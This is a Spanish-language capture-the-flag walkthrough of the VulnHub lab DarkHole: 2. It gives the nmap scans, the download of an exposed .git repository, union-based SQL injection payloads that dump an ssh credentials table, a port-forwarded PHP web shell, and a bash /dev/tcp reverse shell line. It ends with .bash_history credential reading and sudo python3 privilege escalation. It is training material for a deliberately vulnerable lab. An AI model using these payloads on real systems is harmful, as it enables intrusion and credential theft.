

## Conceptos 

#Information_Leakage
#Github_Project_Enumeration
#SQLI 

#Port_Forwarding
#Bash_History
#Abusing_Sudoers_Privilege


# Link a VulnHub
[DarkHole: 2 ~ VulnHub](https://www.vulnhub.com/entry/darkhole-2,740/)


# Fase de Reconocimiento

Iniciaremos usando __Nmap__ para saber que puertos por TCP están abiertos y después de esto procederemos también con __Nmap__  a conocer el servicio y la versión que se están ejecutando por estos puertos.

```bash 
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 192.168.100.133 -oG allports
```


Tenemos dos puertos abiertos el `22` y el `80` ahora debemos saber que servicios están corriendo por estos puertos 

```bash
nmap -sCV -p22,80 -oN Ports 192.168.100.133
```


El puerto 22 es ssh claro esta y el 80 es `Apache`  lo que quiere decir que es una pagina web pero debajo de el tenemos un leyenda que es el `http-git` esto indica que el servidor está configurado para servir repositorios `Git` a través de HTTP. Esto significa que puedes interactuar con el repositorio Git utilizando comandos HTTP estándar

# Visitando la Pagina Web

La pagina es muy simple y lo único que tiene es un panel de inicio de sección 


Si queremos intentar una Inyección SQL no funcionara por que tiene un filtro y no sabemos con certeza que tipo de gestor de Base de Datos esta ocupando, por lo cual nos descargaremos la paganía, si recordaos están usando `Git` por detrás

# Git

Bien si ponemos un .git en la Url podremos visualizar las carpetas u8 archivos que se están ocupando 


Nos descargaremos la pagina en nuestra maquina de manera recursiva para que todos los archivos se descarguen 

```bash 
wget -r http://192.168.100.133/.git/
```

Lo cual nos creara una carpeta con todos los archivos de la pagina 


Si miramos el `login.php` No encontraremos nada de información privilegiada o de importancia


Pero recuerda que estamos ante un repositorio de `Git` por lo cual podemos ver los logs y cambios que se han hecho 


Si lo queremos ver de manera mas limpia usamos el comando siguiente 
```bash
git log --oneline
# Despues miramos el cambio
git show 1234
```


Encontramos las credenciales que la verdad son una basura, y que claramente podemos encontrar en la lista del rockyou


Bien al Loggearnos con estas credenciales entraremos a un tipo de panel en el cual podemos actualizar nuestra información a traves de los campos de `Full name Email Contact number Address `


Bien estos campos de texto no tienen una vulnerabilidad de tipo `SQLI` ni `XSS` pero si eres observador en el link de la pagina tenemos un `?id=` y este si puede ser vulnerable


Usaremos `BurpSuite` para mandar las peticiones por que por la web no nos muestra nada 

# BurpSuite

Usando Burp interceptamos la petición y la mandamos al Repeater 


Ok estando aquí empezaremos con una `SQLI` 

```SQL
order by 10-- -
```

Nos da una Bad Request


Pero si cambiamos a 6 columnas veremos que la repuesta es 200 (recuerda Url Codear para no tener problemas)


Pues a iniciar la Inyección `SQLI`

# SQLI 

Bien como empezamos con con la `SQLI`, lo primero es ver en que campo podemos mostrar la información que nosotros queramos y eso lo haremos usando la Query siguiente:  
```sql
union select 1,2,3,4,5,6
```

Además de usar un usuario que no exista en esta caso como solo existe el usuario con el identificador 1 usaremos el 2 


si queremos saber el nombre de la base de datos en cualquier columna que tu quieres en mi caso la numero dos pondremos la Query de 

```sql
union select 1,database(),3,4,5,6-- -
```  

y con esto sabremos que la Base de Datos que se esta ocupando es la de `darckhole_v2`


Listaremos todas las Base de datos que existen con esta Query 

```sql

union select 1,group_concat( schema_name),3,4,5,6 from information_schema.schemata-- -
```

Desde se corta la información pero la podemos ver completa en la forma de Raw 


Hasta este punto tenemos la siguiente información:
```txt

Nombre de Base de Datos existentes 
	mysql
	information_schema
	performance_schema
	sys
	darkhole_2
```

Listaremos las tablas que existen en ``darckhole_v2`` 

```sql

union select 1,group_concat(table_name),3,4,5,6 from information_schema.tables where table_schema='darkhole_2'-- -
```

tenemos dos tablas `ssh`  y  `users` la de ssh me llama mucho la atención por que cabe la posibilidad de que sean credenciales para conectarnos al servidor 


Si queremos listar las columnas de la tabla ssh aplicaremos una Query mas larga:

```sql

union select 1,group_concat(column_name),3,4,5,6 from information_schema.columns where table_schema='darkhole_2' and table_name='ssh'-- -
```


Bien tenemos que la tabla de ssh contiene las siguientes columnas 

```txt
Table: ssh 
	columns: id , pass, user 

```

Listaremos los datos de de esta tabla 

```sql 
union select 1,group_concat(pass,":",user),3,4,5,6 from ssh-- - 
```

Y conseguimos la contraseña y el usuario `fool` y `jehad`  por el cual nos conectaremos en `ssh` 


# Entrando al servidor 

Bien con estas credenciales podemos conectarnos a través de `ssh` al servidor 


Tenemos acceso al una bash pero tenemos que tratarla para que sea mas cómoda para opera por ahí , con esto las flechas funcionan al igual que las combinaciones con Ctrl 
```bash 

export TERM=xterm

```

Bien dentro de aquí con si buscamos que servicios se están ejecutando en la maquina encontraremos que el usuario losy esta ejecutando un servicio de `php` en el puerto `9999` de manera local 

```bash 
 ps -faux 
```

```bash
USER  PID %CPU %MEM   VSZ  RSS TTY STAT START TIME   COMMAND
losy  1259 0.0 0.0   2608  592  ?  Ss  17:23  0:00  \_ /bin/sh -c  cd /opt/web && php -S localhost:9999
losy  1260 0.0 0.4 193672 19280 ?   S  17:23  0:00      \_ php -S localhost:9999
```

Si miramos lo que esta en la carpeta de `/opt/web` que es donde se encuentra el archivo de `php` y veremos de que se trata 

```php

jehad@darkhole:~$ cat /opt/web/index.php 
<?php
echo "Parameter GET['cmd']";
if(isset($_GET['cmd'])){
echo system($_GET['cmd']);
}

?>
```

Pues se trata de una` web shell` como tal así que procedemos a entrar y basta con mandarnos una `reverse shell` y ganar acceso como este usuario  

# losy web Shell

Bien de aqui podemos hacer dos cosas ocupar curl para mandarnos nuestra `reverse shell` o ocupar `ssh` para usar `port forwarding` o usar `chisel`  el chiste es ganar acceso a la maquina como `losy`

En este caso lo haremos por `ssh`  de la siguinte manera 

```bash
ssh jehad@192.168.100.129 -L 9999:127.0.0.1:9999
```

y con esto conseguimos que su puerto 9999 sea accesible de nuestro lado de manera local por nuestro puerto 9999


y de aquí mandaremos la reverse shell recuerda (url codear los "&" para evitar problemas)

```bash 
bash -c "bash -i >& /dev/tcp/your_ip/your_port 0>&1"
```


## Aplicamos tratamiento a la reverse shell

```bash
script /dev/null -c bash

^Z # Ctrl+Z

stty raw -echo; fg

reset xterm

#Ajustar a tus proporciones de pantalla 
#Adjust to your screen ratios
export TERM=xterm;export SHELL=bash;stty rows 41 columns 192
```

y aquí tenemos la Flag 


bien de aquí veremos el histórico de la bash el cual por sorpresa nos da la contraseña de el usuario `losy` 

```bash 
cat .bash_history
```


y con esto podemos ver los comandos que podemos ejecutar con privilegios de `root`


y Ojito aquí 
```bash

User losy may run the following commands on darkhole:
    (root) /usr/bin/python3
```


# root

Podemos ejecutar Python como root y esto es una tontería, despidan al ``sysadmin`` por favor 

 
 Y con esto tenemos el acceso completo a la maquina de `DarckHole` conceptos fáciles pero buenos para poner en practica